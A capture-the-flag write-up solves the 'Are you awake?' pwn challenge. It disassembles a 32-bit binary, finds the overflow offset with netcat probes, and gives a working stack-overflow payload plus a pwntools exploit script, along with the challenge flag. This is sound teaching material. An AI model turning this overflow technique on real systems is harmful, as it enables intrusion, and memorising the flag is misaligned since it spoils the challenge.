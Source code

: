 Are you awake?
20

Are you awake?

nc areyouawake.chals.fuzzy.land 5503


Solution
========

First of all, let's analyze the binary file:
```
$ file awake
awake: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=759b6f50dbea9e6924bab76a7add1c4bf121e5c2, not stripped
```
```
$ checksec awake
[*] 'awake'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
It's a 32bit Linux ELF binary with stack protection disabled ("No canary found")
but with a non-executbale stack ("NX enabled"). Furthermore the file is
little-endian ("LSB executable"). That's already some usefull
information, so let's now find out what the program does. We execute the program and enter ```yes```:

```
$ nc areyouawake.chals.fuzzy.land 5503
```
```
Are you awake? yes
Nope, you are still sleeping! (0xdeadbeef)
😴
```
The program gives us a hint: ```(0xdeadbeef)```.
Obviously there's a variable which stores the value ```0xdeadbeef``` which we
might have to change to some specific value in order to get the flag. Since we
don't have the source code available, we have to disassemble the binary:

```
$ objdump -d awake
```
```
0804854b <check_awake>:
 804854b:	55                   	push   %ebp
 804854c:	89 e5                	mov    %esp,%ebp
 804854e:	83 ec 08             	sub    $0x8,%esp
 8048551:	83 ec 0c             	sub    $0xc,%esp
 8048554:	68 d0 86 04 08       	push   $0x80486d0
 8048559:	e8 72 fe ff ff       	call   80483d0 <printf@plt>
 804855e:	83 c4 10             	add    $0x10,%esp
 8048561:	a1 40 a0 04 08       	mov    0x804a040,%eax
 8048566:	83 ec 04             	sub    $0x4,%esp
 8048569:	50                   	push   %eax
 804856a:	68 28 01 00 00       	push   $0x128
 804856f:	ff 75 08             	pushl  0x8(%ebp)
 8048572:	e8 69 fe ff ff       	call   80483e0 <fgets@plt>
 8048577:	83 c4 10             	add    $0x10,%esp
 804857a:	90                   	nop
 804857b:	c9                   	leave
 804857c:	c3                   	ret

0804857d <func>:
 804857d:	55                   	push   %ebp
 804857e:	89 e5                	mov    %esp,%ebp
 8048580:	81 ec 88 00 00 00    	sub    $0x88,%esp
 8048586:	83 ec 08             	sub    $0x8,%esp
 8048589:	68 28 01 00 00       	push   $0x128
 804858e:	8d 85 78 ff ff ff    	lea    -0x88(%ebp),%eax
 8048594:	50                   	push   %eax
 8048595:	e8 b1 ff ff ff       	call   804854b <check_awake>
 804859a:	83 c4 10             	add    $0x10,%esp
 804859d:	8b 45 08             	mov    0x8(%ebp),%eax
 80485a0:	3d be ba fe ca       	cmp    $0xcafebabe,%eax
 80485a5:	75 2a                	jne    80485d1 <func+0x54>
 80485a7:	83 ec 0c             	sub    $0xc,%esp
 80485aa:	68 e0 86 04 08       	push   $0x80486e0
 80485af:	e8 3c fe ff ff       	call   80483f0 <puts@plt>
 80485b4:	83 c4 10             	add    $0x10,%esp
 80485b7:	83 ec 0c             	sub    $0xc,%esp
 80485ba:	68 29 87 04 08       	push   $0x8048729
 80485bf:	e8 3c fe ff ff       	call   8048400 <system@plt>
 80485c4:	83 c4 10             	add    $0x10,%esp
 80485c7:	83 ec 0c             	sub    $0xc,%esp
 80485ca:	6a 01                	push   $0x1
 80485cc:	e8 3f fe ff ff       	call   8048410 <exit@plt>
 80485d1:	8b 45 08             	mov    0x8(%ebp),%eax
 80485d4:	83 ec 08             	sub    $0x8,%esp
 80485d7:	50                   	push   %eax
 80485d8:	68 38 87 04 08       	push   $0x8048738
 80485dd:	e8 ee fd ff ff       	call   80483d0 <printf@plt>
 80485e2:	83 c4 10             	add    $0x10,%esp
 80485e5:	83 ec 0c             	sub    $0xc,%esp
 80485e8:	68 5e 87 04 08       	push   $0x804875e
 80485ed:	e8 fe fd ff ff       	call   80483f0 <puts@plt>
 80485f2:	83 c4 10             	add    $0x10,%esp
 80485f5:	83 ec 0c             	sub    $0xc,%esp
 80485f8:	6a 00                	push   $0x0
 80485fa:	e8 11 fe ff ff       	call   8048410 <exit@plt>

080485ff <main>:
 80485ff:	8d 4c 24 04          	lea    0x4(%esp),%ecx
 8048603:	83 e4 f0             	and    $0xfffffff0,%esp
 8048606:	ff 71 fc             	pushl  -0x4(%ecx)
 8048609:	55                   	push   %ebp
 804860a:	89 e5                	mov    %esp,%ebp
 804860c:	51                   	push   %ecx
 804860d:	83 ec 04             	sub    $0x4,%esp
 8048610:	a1 44 a0 04 08       	mov    0x804a044,%eax
 8048615:	6a 00                	push   $0x0
 8048617:	6a 02                	push   $0x2
 8048619:	6a 00                	push   $0x0
 804861b:	50                   	push   %eax
 804861c:	e8 0f fe ff ff       	call   8048430 <setvbuf@plt>
 8048621:	83 c4 10             	add    $0x10,%esp
 8048624:	83 ec 0c             	sub    $0xc,%esp
 8048627:	68 ef be ad de       	push   $0xdeadbeef
 804862c:	e8 4c ff ff ff       	call   804857d <func>
 8048631:	83 c4 10             	add    $0x10,%esp
 8048634:	b8 00 00 00 00       	mov    $0x0,%eax
 8048639:	8b 4d fc             	mov    -0x4(%ebp),%ecx
 804863c:	c9                   	leave
 804863d:	8d 61 fc             	lea    -0x4(%ecx),%esp
 8048640:	c3                   	ret
 8048641:	66 90                	xchg   %ax,%ax
 8048643:	66 90                	xchg   %ax,%ax
 8048645:	66 90                	xchg   %ax,%ax
 8048647:	66 90                	xchg   %ax,%ax
 8048649:	66 90                	xchg   %ax,%ax
 804864b:	66 90                	xchg   %ax,%ax
 804864d:	66 90                	xchg   %ax,%ax
 804864f:	90                   	nop
 ```
In the disassembly of <main> we can see a function call to <func> with one
function argument: ```0xdeadbeef```:
```
8048627:	68 ef be ad de       	push   $0xdeadbeef
804862c:	e8 4c ff ff ff       	call   804857d <func>
```

The disassembly of <func> tells us, that the function argument (in this particular case it's 0xdeadbeef) is then compared with the hard coded value 0xcafebabe:
```
...
80485a0:	3d be ba fe ca       	cmp    $0xcafebabe,%eax
...
```
Let's see if we can change the variable's content from 0xdeadbeef to something
else:
```
$ python -c 'print "A"*142' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xdeadbeef)
😴
```
Hm, nothing happened so far. But what if we add another A to the payload?
```
user@627cd80eca9e /data/wargames/fuzzy.land/pwn/are_you_awake $ python -c 'print "A"*143' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xdeadbe00)
😴
```
Here we go! We just successfully modified the value from ```0xdeadbeef``` to ```0xdeadbe00```. That's most likely caused by the NULL termination of the C library function ```fgets()``` which reads in our input. The call to function fgets() can be found in the disassembly of the function ```<check_awake>```...
```
 8048572:	e8 69 fe ff ff       	call   80483e0 <fgets@plt>
 ```
...which in turn is called within function ```<func>```:
```
 8048595:	e8 b1 ff ff ff       	call   804854b <check_awake>
```
So let's continue to add some more A's to our payload:
```
user@627cd80eca9e /data/wargames/fuzzy.land/pwn/are_you_awake $ python -c 'print "A"*144' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xdead000a)
😴
user@627cd80eca9e /data/wargames/fuzzy.land/pwn/are_you_awake $ python -c 'print "A"*145' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xde000a41)
😴
user@627cd80eca9e /data/wargames/fuzzy.land/pwn/are_you_awake $ python -c 'print "A"*146' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xa4141)
😴
user@627cd80eca9e /data/wargames/fuzzy.land/pwn/are_you_awake $ python -c 'print "A"*147' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xa414141)
😴
user@627cd80eca9e /data/wargames/fuzzy.land/pwn/are_you_awake $ python -c 'print "A"*148' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0x41414141)
😴
```
Now we have completely overwritten the variable and therefore replaced the value ```0xdeadbeef``` with our A's which are represented by the ASCII hex code 0x41. 

In the beginning we found out that the binary is 32 bit. 8 bits are 1 byte. And each one of our A's is 1 byte as well. Therefore 4 A's form a 32 bit address. 
In order to get the flag, all we have to do is to replace ```0x41414141``` with the previously gathered value ```0xcafebabe```. As mentioned earlier, the binary is little-endian. Therefore we have to store the 4 bytes in reverse order. So 0xca 0xfe 0xba 0xbe becomes 0xbe 0xba 0xfe 0xca:
```
$ python -c 'print "A"*144 + "\xbe\xba\xfe\xca"' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Oh, good morning :)
What better way to start the day than with a flag ;)
LosCTF{s0me_s4y_y0u_c0uldve_d0ne_th1s_wh1le_sl33p1ng}
```
This can even be simplified by using the [packing](http://docs.pwntools.com/en/stable/util/packing.html#module-pwnlib.util.packing) function of the so-called [pwntools](https://github.com/Gallopsled/pwntools) Python library:
```
#!/usr/bin/python

import pwn
import struct

p = pwn.remote( "areyouawake.chals.fuzzy.land", 5503 )
#p = pwn.process( "./awake" )

payload = "A" * 144
payload += pwn.p32( 0xcafebabe )

print( p.recv() )
p.sendline( payload )
print( p.recv() )
print( p.recv() )
```
```
$ python exploit.py
[+] Opening connection to areyouawake.chals.fuzzy.land on port 5503: Done
Are you awake?
Oh, good morning :)
What better way to start the day than with a flag ;)

LosCTF{s0me_s4y_y0u_c0uldve_d0ne_th1s_wh1le_sl33p1ng}

[*] Closed connection to areyouawake.chals.fuzzy.land port 5503
```
That's it.
